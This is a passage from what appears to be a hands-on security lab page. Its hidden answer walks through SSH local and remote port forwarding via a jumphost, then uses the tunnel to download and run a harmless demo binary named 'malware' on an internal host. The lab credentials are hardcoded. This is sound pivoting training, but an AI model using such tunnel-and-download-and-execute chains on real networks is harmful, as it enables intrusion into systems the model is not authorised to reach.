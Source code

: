   </blockquote>

  <p>
    <button class="btn btn-outline-primary btn-lg btn-block" type="button" data-bs-toggle="collapse" data-bs-target="#exercise_portforwarding_1" aria-expanded="false" aria-controls="exercise_portforwarding_1">
      See Answer
    </button>
  </p>
  <div class="collapse" id="exercise_portforwarding_1">
  <div class="card card-body">
  <p class="card-text">
<br>
First let's go on our kali box:<br>
<code>doeti &lt;id_outside&gt; bash</code><br>
Now let's bring the internal ssh server to us:<br>
<code>ssh -L 2222:192.168.2.50:22 jumphost@192.168.1.5 -Nf</code><br>
Password: <code>jumphost</code><br>
The internal ssh server is now reachable at our system.<br> 
In the next step let send our system port 8000 to the ssh server.<br>
<code>ssh -R 8888:127.0.0.1:8000 inside_server@127.0.0.1 -p 2222 -Nf</code><br>
Password: <code>inside_server</code><br>
Go in the web server, we have already an example malware created here. This is just executable which prints an ascii art skull.<br> 
<code>
cd /www<br>
/www# ls<br>
index.html  malware  malware.c<br>
</code>
Start the web server at kali port 8000 to make it reachable at the internal system port 8888, so ssh can pick it up.<br> 
Compare the remote port forwarding command before to understand why to choose port 8000. <br>
<code>
cd /www<br>
python3 -m http.server<br>
</code>
python automatically starts the web server at port 8000.<br>

Finally, let's download the malware from the inside server:<br>
<code>doeti &lt;id_inside_server&gt; su inside_server<br>
cd ~<br>
netstat -tulpen | grep 8888<br>
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1000       ...    -<br>
</code>
The web server is reachable at 127.0.0.1:8888 !<br>
<br>
<code>
curl http://127.0.0.1:8888<br>
&lt;html&gt;&lt;body&gt;&lt;h1&gt;Hi from outside server&lt;/h1&gt;&lt;/body&gt;&lt;/html&gt;<br>
</code>
<br>
<code>
curl -O http://127.0.0.1:8888/malware<br>
chmod u+x malware<br>
</code>
<br>
It's time to own the machine:
<code>./malware<br></code> 
<img src="{{ page.image-base | prepend:site.baseurl }}/ssh_combined_local_remote_malware.png" width="100%" alt="SSH combined local remote malware">
</p>
  </div>
  </div>
